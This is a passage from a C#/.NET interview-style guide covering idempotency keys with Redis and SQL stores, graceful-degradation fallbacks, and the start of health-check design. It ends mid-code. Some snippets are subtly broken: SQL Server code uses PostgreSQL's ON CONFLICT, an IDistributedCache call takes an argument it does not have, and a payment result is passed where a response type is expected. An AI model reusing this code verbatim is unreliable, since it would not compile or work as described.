            var originalBodyStream = context.Response.Body;
            using var responseBody = new MemoryStream();
            context.Response.Body = responseBody;
            
            try
            {
                // Process request
                await _next(context);
                
                // Cache successful responses
                if (context.Response.StatusCode >= 200 && context.Response.StatusCode < 300)
                {
                    var response = new IdempotentResponse
                    {
                        StatusCode = context.Response.StatusCode,
                        Headers = context.Response.Headers.ToDictionary(h => h.Key, h => h.Value),
                        Body = Encoding.UTF8.GetString(responseBody.ToArray()),
                        CreatedAt = DateTime.UtcNow
                    };
                    
                    await _store.SaveAsync(idempotencyKey, response, TimeSpan.FromHours(24));
                }
                
                // Copy response to original stream
                responseBody.Seek(0, SeekOrigin.Begin);
                await responseBody.CopyToAsync(originalBodyStream);
            }
            finally
            {
                context.Response.Body = originalBodyStream;
            }
        }
    }
    
    private bool IsIdempotentOperation(HttpRequest request)
    {
        // POST, PUT, PATCH are candidates for idempotency
        return request.Method == HttpMethod.Post.Method ||
               request.Method == HttpMethod.Put.Method ||
               request.Method == HttpMethod.Patch.Method;
    }
}
```

### Idempotency Store Implementation

```csharp
public interface IIdempotencyStore
{
    Task<IdempotentResponse> GetAsync(string key);
    Task SaveAsync(string key, IdempotentResponse response, TimeSpan ttl);
    Task<IDisposable> AcquireLockAsync(string key);
}

public class RedisIdempotencyStore : IIdempotencyStore
{
    private readonly IConnectionMultiplexer _redis;
    private readonly IDatabase _db;
    
    public RedisIdempotencyStore(IConnectionMultiplexer redis)
    {
        _redis = redis;
        _db = _redis.GetDatabase();
    }
    
    public async Task<IdempotentResponse> GetAsync(string key)
    {
        var data = await _db.StringGetAsync($"idempotency:{key}");
        
        if (data.IsNullOrEmpty)
            return null;
        
        return JsonSerializer.Deserialize<IdempotentResponse>(data);
    }
    
    public async Task SaveAsync(string key, IdempotentResponse response, TimeSpan ttl)
    {
        var json = JsonSerializer.Serialize(response);
        await _db.StringSetAsync($"idempotency:{key}", json, ttl);
    }
    
    public async Task<IDisposable> AcquireLockAsync(string key)
    {
        var lockKey = $"idempotency:lock:{key}";
        var lockToken = Guid.NewGuid().ToString();
        
        // Try to acquire lock with timeout
        var acquired = await _db.StringSetAsync(
            lockKey, 
            lockToken, 
            TimeSpan.FromSeconds(30), 
            When.NotExists);
        
        if (!acquired)
        {
            // Wait and retry
            var retries = 0;
            while (!acquired && retries < 10)
            {
                await Task.Delay(100);
                acquired = await _db.StringSetAsync(
                    lockKey, 
                    lockToken, 
                    TimeSpan.FromSeconds(30), 
                    When.NotExists);
                retries++;
            }
            
            if (!acquired)
                throw new InvalidOperationException($"Could not acquire lock for key {key}");
        }
        
        return new RedisLock(_db, lockKey, lockToken);
    }
    
    private class RedisLock : IDisposable
    {
        private readonly IDatabase _db;
        private readonly string _key;
        private readonly string _token;
        
        public RedisLock(IDatabase db, string key, string token)
        {
            _db = db;
            _key = key;
            _token = token;
        }
        
        public void Dispose()
        {
            // Only delete if we still own the lock
            var script = @"
                if redis.call('get', KEYS[1]) == ARGV[1] then
                    return redis.call('del', KEYS[1])
                else
                    return 0
                end";
            
            _db.ScriptEvaluate(script, new[] { (RedisKey)_key }, new[] { (RedisValue)_token });
        }
    }
}

// SQL Server implementation
public class SqlIdempotencyStore : IIdempotencyStore
{
    private readonly string _connectionString;
    
    public async Task SaveAsync(string key, IdempotentResponse response, TimeSpan ttl)
    {
        using var connection = new SqlConnection(_connectionString);
        
        await connection.ExecuteAsync(@"
            INSERT INTO IdempotencyKeys 
                (IdempotencyKey, Response, StatusCode, CreatedAt, ExpiresAt)
            VALUES 
                (@Key, @Response, @StatusCode, @CreatedAt, @ExpiresAt)
            ON CONFLICT (IdempotencyKey) DO NOTHING",
            new
            {
                Key = key,
                Response = JsonSerializer.Serialize(response),
                StatusCode = response.StatusCode,
                CreatedAt = DateTime.UtcNow,
                ExpiresAt = DateTime.UtcNow.Add(ttl)
            });
    }
}
```

### When New Keys Are Created

```csharp
public class IdempotencyKeyLifecycle
{
    // New key for each distinct business operation
    
    // 1. User-initiated actions
    public async Task<Order> CreateOrderWithRetry(OrderRequest request)
    {
        // New key for each order attempt
        var idempotencyKey = Guid.NewGuid().ToString();
        
        // Retry with SAME key
        var retryPolicy = Policy
            .HandleResult<HttpResponseMessage>(r => !r.IsSuccessStatusCode)
            .WaitAndRetryAsync(
                3,
                retryAttempt => TimeSpan.FromSeconds(Math.Pow(2, retryAttempt)),
                onRetry: (outcome, timespan, retryCount, context) =>
                {
                    // Same idempotency key on retry!
                    _logger.LogWarning($"Retry {retryCount} with key {idempotencyKey}");
                });
        
        var response = await retryPolicy.ExecuteAsync(async () =>
        {
            var request = new HttpRequestMessage(HttpMethod.Post, "/api/orders");
            request.Headers.Add("Idempotency-Key", idempotencyKey);
            return await _httpClient.SendAsync(request);
        });
        
        return await response.Content.ReadFromJsonAsync<Order>();
    }
    
    // 2. Batch operations - key per item
    public async Task ProcessBatchPayments(List<PaymentRequest> payments)
    {
        var tasks = payments.Select(payment =>
        {
            // Each payment gets its own key
            var idempotencyKey = $"batch:{batchId}:payment:{payment.Id}";
            return ProcessPaymentWithIdempotency(payment, idempotencyKey);
        });
        
        await Task.WhenAll(tasks);
    }
    
    // 3. Scheduled/recurring operations
    public class ScheduledPaymentProcessor
    {
        public async Task ProcessScheduledPayment(ScheduledPayment scheduled)
        {
            // Key includes schedule date to ensure uniqueness
            var idempotencyKey = $"scheduled:{scheduled.Id}:{scheduled.ScheduledDate:yyyyMMdd}";
            
            // If job runs multiple times for same date, same result
            await ProcessPaymentWithIdempotency(scheduled, idempotencyKey);
        }
    }
    
    // 4. Event-driven operations
    public class EventHandler
    {
        public async Task HandleOrderCreatedEvent(OrderCreatedEvent @event)
        {
            // Use event ID as idempotency key
            var idempotencyKey = $"event:{@event.EventId}";
            
            // If event is delivered multiple times, same result
            await SendOrderConfirmationEmail(@event, idempotencyKey);
        }
    }
}
```

### Why Idempotency Matters for Caching

```csharp
public class IdempotencyCachingBenefits
{
    // 1. Safe result caching
    public class CachedIdempotentService
    {
        private readonly IMemoryCache _cache;
        private readonly IIdempotencyStore _idempotencyStore;
        
        public async Task<PaymentResult> ProcessPayment(
            PaymentRequest request, 
            string idempotencyKey)
        {
            // Check memory cache first (fastest)
            if (_cache.TryGetValue(idempotencyKey, out PaymentResult cachedResult))
            {
                return cachedResult;
            }
            
            // Check distributed cache (idempotency store)
            var storedResult = await _idempotencyStore.GetAsync(idempotencyKey);
            if (storedResult != null)
            {
                var result = JsonSerializer.Deserialize<PaymentResult>(storedResult.Body);
                
                // Populate memory cache
                _cache.Set(idempotencyKey, result, TimeSpan.FromMinutes(5));
                
                return result;
            }
            
            // Process payment...
            var paymentResult = await ProcessPaymentInternal(request);
            
            // Cache in both layers
            await _idempotencyStore.SaveAsync(idempotencyKey, paymentResult, TimeSpan.FromHours(24));
            _cache.Set(idempotencyKey, paymentResult, TimeSpan.FromMinutes(5));
            
            return paymentResult;
        }
    }
    
    // 2. Preventing duplicate processing
    public class DuplicatePreventionCache
    {
        private readonly IDistributedCache _cache;
        
        public async Task<bool> TryProcessOnce(string idempotencyKey)
        {
            // Atomic check-and-set operation
            var lockKey = $"processing:{idempotencyKey}";
            var acquired = await _cache.SetStringAsync(
                lockKey,
                "locked",
                new DistributedCacheEntryOptions
                {
                    AbsoluteExpirationRelativeToNow = TimeSpan.FromMinutes(5)
                },
                When.NotExists);
            
            return acquired;
        }
    }
    
    // 3. Request deduplication at edge
    public class EdgeCacheIdempotency
    {
        // CDN/API Gateway level caching
        public async Task<IActionResult> HandleRequest(HttpRequest request)
        {
            var idempotencyKey = request.Headers["Idempotency-Key"];
            
            // Check edge cache
            var cacheKey = $"edge:response:{idempotencyKey}";
            var cachedResponse = await _edgeCache.GetAsync(cacheKey);
            
            if (cachedResponse != null)
            {
                // Return without hitting origin
                return new ContentResult
                {
                    Content = cachedResponse,
                    StatusCode = 200,
                    ContentType = "application/json"
                };
            }
            
            // Forward to origin...
        }
    }
    
    // 4. Optimistic caching with idempotency
    public class OptimisticCaching
    {
        public async Task<T> GetOrCreateAsync<T>(
            string idempotencyKey,
            Func<Task<T>> factory,
            TimeSpan cacheDuration)
        {
            // Try to get from cache
            var cached = await _cache.GetAsync<T>(idempotencyKey);
            if (cached != null)
                return cached;
            
            // Optimistically set a "pending" marker
            var pendingKey = $"pending:{idempotencyKey}";
            var setPending = await _cache.SetAsync(
                pendingKey, 
                "processing", 
                TimeSpan.FromSeconds(30),
                When.NotExists);
            
            if (!setPending)
            {
                // Another request is processing, wait for result
                return await WaitForResult<T>(idempotencyKey);
            }
            
            try
            {
                // Process and cache
                var result = await factory();
                await _cache.SetAsync(idempotencyKey, result, cacheDuration);
                return result;
            }
            finally
            {
                await _cache.DeleteAsync(pendingKey);
            }
        }
    }
}
```

### Best Practices

```yaml
Idempotency Key Generation:
  Client Responsibilities:
    - Generate unique key for each business operation
    - Store key for retry scenarios
    - Include key in all retry attempts
    - Use deterministic keys for scheduled operations
  
  Key Patterns:
    - Random: UUID for user-initiated actions
    - Deterministic: Hash of request for automated systems
    - Composite: Include context (user, session, timestamp)
    - Business: Based on natural keys when available

Storage and Expiration:
  - Store for at least 24 hours
  - Consider business operation lifecycle
  - Clean up expired keys periodically
  - Monitor storage growth

Error Handling:
  - Return same error for same key
  - Include idempotency key in error responses
  - Log idempotent vs new requests
  - Handle storage failures gracefully

Performance:
  - Use tiered caching (memory → distributed → persistent)
  - Implement request coalescing
  - Monitor cache hit rates
  - Consider async processing for heavy operations
```

**Key Insight**: Idempotency keys are unique identifiers generated by clients for each distinct business operation, enabling safe retries and preventing duplicate processing. They're created once per operation and reused for all retries. They matter for caching because they provide a reliable cache key that ensures consistent responses across retries while preventing duplicate side effects, making distributed systems more reliable and efficient.

## Question 57: Explain Graceful Degradation especial how it applies to basic and enhanced data returned or stored

Graceful degradation is a design principle where a system continues to operate with reduced functionality when some components fail, rather than failing completely. This is particularly important for data operations where you can provide basic essential data even when enhanced features are unavailable.

### Understanding Graceful Degradation

```csharp
// Core concept: Provide essential functionality even when optimal services fail
public interface IGracefulService<TBasic, TEnhanced> 
    where TEnhanced : TBasic
{
    Task<TEnhanced> GetEnhancedDataAsync(string id);
    Task<TBasic> GetBasicDataAsync(string id);
    Task<TBasic> GetDataWithFallbackAsync(string id);
}
```

### Basic vs Enhanced Data Models

```csharp
// Basic data model - minimal essential information
public class BasicUserData
{
    public string UserId { get; set; }
    public string Username { get; set; }
    public string Email { get; set; }
    public DateTime LastActive { get; set; }
}

// Enhanced data model - includes enriched information
public class EnhancedUserData : BasicUserData
{
    public string ProfileImageUrl { get; set; }
    public UserPreferences Preferences { get; set; }
    public List<string> RecentActivities { get; set; }
    public SocialConnections Social { get; set; }
    public UserStatistics Stats { get; set; }
    public List<Achievement> Achievements { get; set; }
}

// Service implementation
public class UserDataService : IGracefulService<BasicUserData, EnhancedUserData>
{
    private readonly IUserRepository _userRepo;
    private readonly IImageService _imageService;
    private readonly IActivityService _activityService;
    private readonly ISocialService _socialService;
    private readonly IStatsService _statsService;
    private readonly ICircuitBreaker _circuitBreaker;
    private readonly ILogger<UserDataService> _logger;

    public async Task<EnhancedUserData> GetEnhancedDataAsync(string userId)
    {
        // Get basic data (required)
        var basicData = await GetBasicDataAsync(userId);
        if (basicData == null)
            return null;

        var enhancedData = new EnhancedUserData
        {
            UserId = basicData.UserId,
            Username = basicData.Username,
            Email = basicData.Email,
            LastActive = basicData.LastActive
        };

        // Attempt to get enhanced data with graceful fallbacks
        // Each enhancement is optional and can fail independently
        
        // Profile image with fallback
        enhancedData.ProfileImageUrl = await _circuitBreaker.ExecuteAsync(
            async () => await _imageService.GetProfileImageUrlAsync(userId),
            fallback: () => "/images/default-avatar.png"
        );

        // User preferences with defaults
        enhancedData.Preferences = await TryGetWithFallbackAsync(
            async () => await _activityService.GetUserPreferencesAsync(userId),
            () => UserPreferences.GetDefaults()
        );

        // Recent activities - can be empty
        enhancedData.RecentActivities = await TryGetWithFallbackAsync(
            async () => await _activityService.GetRecentActivitiesAsync(userId, limit: 10),
            () => new List<string>()
        );

        // Social connections - optional
        enhancedData.Social = await TryGetWithFallbackAsync(
            async () => await _socialService.GetConnectionsAsync(userId),
            () => null // Null is acceptable for optional data
        );

        // Statistics - compute locally if service unavailable
        enhancedData.Stats = await TryGetWithFallbackAsync(
            async () => await _statsService.GetUserStatisticsAsync(userId),
            async () => await ComputeBasicStatsLocallyAsync(userId)
        );

        return enhancedData;
    }

    public async Task<BasicUserData> GetDataWithFallbackAsync(string userId)
    {
        try
        {
            // Try to get enhanced data first
            return await GetEnhancedDataAsync(userId);
        }
        catch (Exception ex)
        {
            _logger.LogWarning(ex, "Failed to get enhanced data for user {UserId}, falling back to basic", userId);
            
            // Fall back to basic data
            return await GetBasicDataAsync(userId);
        }
    }

    private async Task<T> TryGetWithFallbackAsync<T>(
        Func<Task<T>> primaryFunc,
        Func<Task<T>> fallbackFunc)
    {
        try
        {
            return await primaryFunc();
        }
        catch (Exception ex)
        {
            _logger.LogWarning(ex, "Primary function failed, using fallback");
            return await fallbackFunc();
        }
    }
}
```

### Graceful Degradation Patterns

```csharp
// 1. Tiered Service Pattern
public class TieredDataService
{
    private readonly IServiceProvider _services;
    private readonly ILogger<TieredDataService> _logger;

    public async Task<PuzzleData> GetPuzzleDataAsync(int puzzleId)
    {
        var data = new PuzzleData
        {
            // Essential data - must succeed
            PuzzleId = puzzleId,
            Pieces = await GetPuzzlePiecesAsync(puzzleId)
        };

        // Try to enhance with optional data
        await EnhanceWithOptionalDataAsync(data);
        
        return data;
    }

    private async Task EnhanceWithOptionalDataAsync(PuzzleData data)
    {
        // Each enhancement is independent and can fail
        var tasks = new List<Task>
        {
            TryEnhanceAsync(async () => 
            {
                data.Leaderboard = await GetLeaderboardAsync(data.PuzzleId);
            }, "leaderboard"),
            
            TryEnhanceAsync(async () => 
            {
                data.Statistics = await GetStatisticsAsync(data.PuzzleId);
            }, "statistics"),
            
            TryEnhanceAsync(async () => 
            {
                data.RelatedPuzzles = await GetRelatedPuzzlesAsync(data.PuzzleId);
            }, "related puzzles"),
            
            TryEnhanceAsync(async () => 
            {
                data.UserProgress = await GetUserProgressAsync(data.PuzzleId);
            }, "user progress")
        };

        // Wait for all enhancements, but don't fail if any fail
        await Task.WhenAll(tasks);
    }

    private async Task TryEnhanceAsync(Func<Task> enhancement, string featureName)
    {
        try
        {
            await enhancement();
        }
        catch (Exception ex)
        {
            _logger.LogWarning(ex, "Failed to enhance with {Feature}, continuing without it", featureName);
        }
    }
}

// 2. Feature Toggle Pattern
public class FeatureAwareService
{
    private readonly IFeatureManager _featureManager;
    private readonly IConfiguration _config;

    public async Task<SearchResults> SearchAsync(SearchQuery query)
    {
        var results = new SearchResults
        {
            // Basic search always available
            Items = await PerformBasicSearchAsync(query)
        };

        // Enhanced features based on availability
        if (await _featureManager.IsEnabledAsync("AdvancedSearch"))
        {
            results = await EnhanceWithAdvancedSearchAsync(results, query);
        }

        if (await _featureManager.IsEnabledAsync("AIRecommendations"))
        {
            try
            {
                results.Recommendations = await GetAIRecommendationsAsync(query);
            }
            catch
            {
                // AI service down - continue without recommendations
                results.Recommendations = new List<Recommendation>();
            }
        }

        if (await _featureManager.IsEnabledAsync("SearchAnalytics"))
        {
            // Fire and forget - don't wait or fail
            _ = Task.Run(() => RecordSearchAnalyticsAsync(query));
        }

        return results;
    }
}

// 3. Cache-First Pattern
public class CacheFirstService
{
    private readonly IDistributedCache _cache;
    private readonly IDataService _dataService;
    private readonly ILogger<CacheFirstService> _logger;

    public async Task<T> GetDataAsync<T>(string key, DataRequirements requirements)
    {
        // 1. Try cache first (fastest)
        var cached = await TryGetFromCacheAsync<T>(key);
        if (cached != null && MeetsRequirements(cached, requirements))
            return cached;

        // 2. Try live service (most current)
        try
        {
            var liveData = await _dataService.GetDataAsync<T>(key);
            
            // Update cache for next time
            _ = Task.Run(() => UpdateCacheAsync(key, liveData));
            
            return liveData;
        }
        catch (Exception ex)
        {
            _logger.LogWarning(ex, "Live service failed for key {Key}", key);
            
            // 3. Fall back to stale cache if available
            if (cached != null && requirements.AllowStale)
            {
                _logger.LogInformation("Using stale cache for key {Key}", key);
                return cached;
            }

            // 4. Try backup data source
            if (requirements.AllowBackup)
            {
                return await GetFromBackupAsync<T>(key);
            }

            throw; // No more fallbacks available
        }
    }

    private bool MeetsRequirements<T>(T data, DataRequirements requirements)
    {
        if (data is ITimestamped timestamped)
        {
            var age = DateTime.UtcNow - timestamped.Timestamp;
            return age <= requirements.MaxAge;
        }
        return true; // No timestamp, assume valid
    }
}

// 4. Progressive Enhancement Pattern
public class ProgressiveEnhancementService
{
    private readonly IServiceProvider _services;
    
    public async Task<DashboardData> GetDashboardDataAsync(
        string userId, 
        TimeSpan timeout)
    {
        var dashboard = new DashboardData
        {
            UserId = userId,
            GeneratedAt = DateTime.UtcNow
        };

        // Create a cancellation token for timeout
        using var cts = new CancellationTokenSource(timeout);
        
        // Load data progressively, starting with most important
        var loadTasks = new[]
        {
            // Critical data - fail if these timeout
            LoadCriticalDataAsync(dashboard, cts.Token),
            
            // Important but not critical
            LoadWithFallbackAsync(
                () => LoadRecentActivityAsync(dashboard, cts.Token),
                () => dashboard.RecentActivity = new List<Activity>()
            ),
            
            // Nice to have - continue if these fail
            LoadOptionalAsync(
                () => LoadRecommendationsAsync(dashboard, cts.Token)
            ),
            
            LoadOptionalAsync(
                () => LoadSocialUpdatesAsync(dashboard, cts.Token)
            )
        };

        try
        {
            await Task.WhenAll(loadTasks);
        }
        catch (OperationCanceledException)
        {
            _logger.LogWarning("Dashboard load timed out after {Timeout}ms", timeout.TotalMilliseconds);
            // Return what we have so far
        }

        return dashboard;
    }

    private async Task LoadOptionalAsync(Func<Task> loadFunc)
    {
        try
        {
            await loadFunc();
        }
        catch (Exception ex)
        {
            _logger.LogDebug(ex, "Optional data load failed");
            // Swallow exception - this data is optional
        }
    }
}
```

### Storage Strategies for Graceful Degradation

```csharp
// 1. Multi-Tier Storage
public class MultiTierStorageService
{
    private readonly IMemoryCache _l1Cache;
    private readonly IDistributedCache _l2Cache;
    private readonly IRepository _primaryDb;
    private readonly IReadOnlyRepository _readReplica;
    private readonly IBlobStorage _blobStorage;

    public async Task<StorageResult<T>> GetDataAsync<T>(string key)
    {
        var result = new StorageResult<T>();

        // L1: Memory cache (fastest)
        if (_l1Cache.TryGetValue(key, out T cached))
        {
            result.Data = cached;
            result.Source = StorageSource.MemoryCache;
            return result;
        }

        // L2: Distributed cache (fast)
        try
        {
            var distributed = await _l2Cache.GetAsync<T>(key);
            if (distributed != null)
            {
                _l1Cache.Set(key, distributed, TimeSpan.FromMinutes(5));
                result.Data = distributed;
                result.Source = StorageSource.DistributedCache;
                return result;
            }
        }
        catch (Exception ex)
        {
            _logger.LogWarning(ex, "Distributed cache failed for key {Key}", key);
            // Continue to next tier
        }

        // L3: Primary database (authoritative)
        try
        {
            var dbData = await _primaryDb.GetAsync<T>(key);
            if (dbData != null)
            {
                await UpdateCachesAsync(key, dbData);
                result.Data = dbData;
                result.Source = StorageSource.PrimaryDatabase;
                return result;
            }
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Primary database failed for key {Key}", key);
            
            // L4: Read replica (possibly stale)
            try
            {
                var replicaData = await _readReplica.GetAsync<T>(key);
                if (replicaData != null)
                {
                    result.Data = replicaData;
                    result.Source = StorageSource.ReadReplica;
                    result.IsStale = true;
                    return result;
                }
            }
            catch
            {
                // Continue to last resort
            }
        }

        // L5: Blob storage (last resort, slow)
        try
        {
            var blobData = await _blobStorage.GetAsync<T>($"backup/{key}");
            if (blobData != null)
            {
                result.Data = blobData;
                result.Source = StorageSource.BlobBackup;
                result.IsStale = true;
                return result;
            }
        }
        catch
        {
            // All storage tiers failed
        }

        result.Success = false;
        return result;
    }
}

// 2. Write Path Degradation
public class ResilientWriteService
{
    public async Task<WriteResult> SaveDataAsync<T>(string key, T data)
    {
        var result = new WriteResult { Key = key };
        var writePromises = new List<Task>();

        // Primary write - must succeed
        try
        {
            await _primaryDb.SaveAsync(key, data);
            result.PrimaryWriteSuccess = true;
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Primary write failed for key {Key}", key);
            
            // Try write-ahead log as fallback
            try
            {
                await _writeAheadLog.AppendAsync(key, data);
                result.QueuedForRetry = true;
                
                // Schedule retry
                _retryQueue.Enqueue(new RetryItem
                {
                    Key = key,
                    Data = data,
                    Timestamp = DateTime.UtcNow
                });
            }
            catch
            {
                result.Success = false;
                throw; // Complete failure
            }
        }

        // Secondary writes - best effort
        if (result.PrimaryWriteSuccess)
        {
            // Update cache - fire and forget
            writePromises.Add(
                Task.Run(() => UpdateCacheAsync(key, data))
                    .ContinueWith(t => 
                    {
                        if (t.IsFaulted)
                            _logger.LogWarning("Cache update failed for key {Key}", key);
                    })
            );

            // Update search index - fire and forget
            writePromises.Add(
                Task.Run(() => UpdateSearchIndexAsync(key, data))
                    .ContinueWith(t => 
                    {
                        if (t.IsFaulted)
                            _logger.LogWarning("Search index update failed for key {Key}", key);
                    })
            );

            // Replicate to backup - important but not critical
            writePromises.Add(
                ReplicateToBackupAsync(key, data)
                    .ContinueWith(t =>
                    {
                        result.BackupWriteSuccess = !t.IsFaulted;
                    })
            );
        }

        // Wait for secondary writes with timeout
        await Task.WhenAny(
            Task.WhenAll(writePromises),
            Task.Delay(TimeSpan.FromSeconds(5))
        );

        return result;
    }
}
```

### Real-Time Features with Degradation

```csharp
// SignalR Hub with graceful degradation
public class ResilientPuzzleHub : Hub
{
    private readonly IConnectionManager _connectionManager;
    private readonly IMessageQueue _messageQueue;
    private readonly ILogger<ResilientPuzzleHub> _logger;

    public async Task MovePiece(MovePieceRequest request)
    {
        try
        {
            // Try real-time broadcast
            await Clients.Group(request.SessionId)
                .SendAsync("PieceMoved", request);
            
            // Track delivery
            await _connectionManager.MarkDeliveredAsync(
                request.SessionId, 
                request.MessageId);
        }
        catch (Exception ex)
        {
            _logger.LogWarning(ex, "Real-time delivery failed, queuing for retry");
            
            // Fall back to persistent queue
            await _messageQueue.EnqueueAsync(new QueuedMessage
            {
                SessionId = request.SessionId,
                MessageType = "PieceMoved",
                Payload = request,
                Timestamp = DateTime.UtcNow,
                RetryCount = 0
            });

            // Notify client to switch to polling mode
            await Clients.Caller.SendAsync("SwitchToPolling", new
            {
                Reason = "Real-time delivery unavailable",
                PollInterval = 1000 // ms
            });
        }
    }

    // Client can poll for missed messages
    public async Task<List<QueuedMessage>> GetMissedMessages(
        string sessionId, 
        DateTime since)
    {
        return await _messageQueue.GetMessagesAsync(sessionId, since);
    }
}

// Client-side resilience
public class ResilientPuzzleClient
{
    private HubConnection _connection;
    private bool _isPolling = false;
    private Timer _pollTimer;

    public async Task InitializeAsync()
    {
        _connection = new HubConnectionBuilder()
            .WithUrl("/puzzleHub")
            .WithAutomaticReconnect(new[] { 0, 2, 5, 10, 30 })
            .Build();

        // Handle degradation to polling
        _connection.On("SwitchToPolling", (dynamic data) =>
        {
            StartPolling(data.PollInterval);
        });

        // Handle reconnection
        _connection.Reconnected += async (connectionId) =>
        {
            // Fetch any missed messages
            var missed = await _connection.InvokeAsync<List<QueuedMessage>>(
                "GetMissedMessages",
                _sessionId,
                _lastMessageTime);
            
            foreach (var message in missed)
            {
                await ProcessMessageAsync(message);
            }
            
            StopPolling();
        };

        try
        {
            await _connection.StartAsync();
        }
        catch
        {
            // Start in polling mode if connection fails
            StartPolling(1000);
        }
    }

    private void StartPolling(int intervalMs)
    {
        if (_isPolling) return;
        
        _isPolling = true;
        _pollTimer = new Timer(async _ =>
        {
            try
            {
                var messages = await FetchMessagesViaHttpAsync();
                foreach (var message in messages)
                {
                    await ProcessMessageAsync(message);
                }
            }
            catch (Exception ex)
            {
                _logger.LogWarning(ex, "Polling failed");
            }
        }, null, 0, intervalMs);
    }
}
```

### Configuration for Graceful Degradation

```json
{
  "GracefulDegradation": {
    "Enabled": true,
    "ServiceTimeouts": {
      "Critical": 5000,
      "Important": 3000,
      "Optional": 1000
    },
    "CircuitBreaker": {
      "FailureThreshold": 5,
      "ResetTimeout": 30000,
      "HalfOpenMaxAttempts": 3
    },
    "Fallbacks": {
      "UseStaleCache": true,
      "MaxStaleAge": "00:15:00",
      "UseReadReplica": true,
      "EnablePollingFallback": true,
      "DefaultPollingInterval": 2000
    },
    "Features": {
      "Core": ["Authentication", "BasicData", "PuzzlePlay"],
      "Enhanced": ["Leaderboards", "Social", "Analytics"],
      "Optional": ["AIHints", "VoiceChat", "3DView"]
    }
  }
}
```

### Monitoring Degradation

```csharp
public class DegradationMonitor
{
    private readonly IMetrics _metrics;
    private readonly ILogger<DegradationMonitor> _logger;

    public async Task<T> MonitoredExecuteAsync<T>(
        string operation,
        ServiceTier tier,
        Func<Task<T>> func,
        Func<Task<T>> fallback = null)
    {
        var timer = Stopwatch.StartNew();
        var success = false;
        var degraded = false;

        try
        {
            var result = await func();
            success = true;
            return result;
        }
        catch (Exception ex) when (fallback != null)
        {
            _logger.LogWarning(ex, "Primary operation {Operation} failed, using fallback", operation);
            degraded = true;
            
            try
            {
                var result = await fallback();
                success = true;
                return result;
            }
            catch (Exception fallbackEx)
            {
                _logger.LogError(fallbackEx, "Fallback for {Operation} also failed", operation);
                throw;
            }
        }
        finally
        {
            timer.Stop();
            
            // Record metrics
            _metrics.RecordOperationTime(operation, tier, timer.ElapsedMilliseconds);
            _metrics.RecordOperationResult(operation, tier, success, degraded);
            
            if (degraded)
            {
                _metrics.IncrementDegradationCounter(operation, tier);
            }
        }
    }
}
```

### Best Practices for Graceful Degradation

```yaml
Design Principles:
  1. Identify Critical vs Optional:
     - Authentication: Critical
     - Basic data access: Critical
     - Enhanced features: Optional
     - Analytics: Optional
  
  2. Fail Fast for Optional Features:
     - Short timeouts
     - Circuit breakers
     - Feature flags
  
  3. Progressive Enhancement:
     - Start with minimal viable response
     - Add enhancements as available
     - Don't block on nice-to-haves
  
  4. Client Awareness:
     - Inform clients of degraded mode
     - Provide fallback mechanisms
     - Enable client-side resilience

Implementation Patterns:
  1. Timeout Budgets:
     - Total request timeout: 5s
     - Critical operations: 3s
     - Optional operations: 1s
     - Parallel execution where possible
  
  2. Fallback Hierarchy:
     - Memory cache → Distributed cache
     - Primary DB → Read replica → Backup
     - Real-time → Queue → Polling
     - Full data → Basic data → Cached data
  
  3. Feature Flags:
     - Runtime toggling
     - Gradual rollout
     - Quick disable for issues
     - A/B testing support

Monitoring and Alerting:
  1. Track Degradation:
     - Fallback usage rates
     - Feature availability
     - Response completeness
     - User experience impact
  
  2. SLO Considerations:
     - Define SLOs for degraded mode
     - Measure against both modes
     - Alert on excessive degradation
     - Track recovery time
```

**Key Insight**: Graceful degradation ensures systems remain functional during partial failures by providing essential data and services even when enhanced features are unavailable. By designing with fallback hierarchies, timeout budgets, and progressive enhancement, applications can maintain user experience during outages while automatically recovering full functionality when services are restored.

## Question 58: Explain best practices with health checks and how to build a quality one that doesn't degrade performance

Health checks are endpoints that report the status of an application and its dependencies. Building quality health checks requires balancing comprehensive monitoring with minimal performance impact.

### Understanding Health Check Types

```csharp
// Health check types and their purposes
public enum HealthCheckType
{
    Liveness,    // Is the app running? (for restart decisions)
    Readiness,   // Is the app ready to serve traffic?
    Startup      // Has the app completed initialization?
}

// Basic health check implementation
public class BasicHealthCheck : IHealthCheck
{
    private readonly ILogger<BasicHealthCheck> _logger;

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        try
        {
            // Quick self-check
            var isHealthy = await PerformHealthCheckAsync(cancellationToken);
            
            return isHealthy
                ? HealthCheckResult.Healthy("Service is healthy")
                : HealthCheckResult.Unhealthy("Service is unhealthy");
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Health check failed");
            return HealthCheckResult.Unhealthy("Health check exception", ex);
        }
    }
    
    private async Task<bool> PerformHealthCheckAsync(CancellationToken cancellationToken)
    {
        // Quick checks only - no heavy operations
        return await Task.FromResult(true);
    }
}
```

### Implementing Performance-Conscious Health Checks

```csharp
// 1. Cached Health Check Pattern
public class CachedHealthCheck : IHealthCheck
{
    private readonly IMemoryCache _cache;
    private readonly IHealthCheckService _service;
    private readonly TimeSpan _cacheExpiration;
    private readonly string _cacheKey;

    public CachedHealthCheck(
        IMemoryCache cache,
        IHealthCheckService service,
        TimeSpan? cacheExpiration = null)
    {
        _cache = cache;
        _service = service;
        _cacheExpiration = cacheExpiration ?? TimeSpan.FromSeconds(5);
        _cacheKey = $"health_{service.GetType().Name}";
    }

    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        // Try to get cached result first
        if (_cache.TryGetValue<HealthCheckResult>(_cacheKey, out var cachedResult))
        {
            return cachedResult;
        }

        // Perform actual check
        var result = await _service.CheckHealthAsync(cancellationToken);
        
        // Cache the result
        _cache.Set(_cacheKey, result, _cacheExpiration);
        
        return result;
    }
}

// 2. Background Health Check Pattern
public class BackgroundHealthCheckService : BackgroundService
{
    private readonly IServiceProvider _serviceProvider;
    private readonly ILogger<BackgroundHealthCheckService> _logger;
    private readonly HealthCheckResults _results;
    private readonly TimeSpan _checkInterval;

    public BackgroundHealthCheckService(
        IServiceProvider serviceProvider,
        ILogger<BackgroundHealthCheckService> logger,
        HealthCheckResults results)
    {
        _serviceProvider = serviceProvider;
        _logger = logger;
        _results = results;
        _checkInterval = TimeSpan.FromSeconds(30);
    }

    protected override async Task ExecuteAsync(CancellationToken stoppingToken)
    {
        while (!stoppingToken.IsCancellationRequested)
        {
            try
            {
                await PerformHealthChecksAsync(stoppingToken);
                await Task.Delay(_checkInterval, stoppingToken);
            }
            catch (Exception ex)
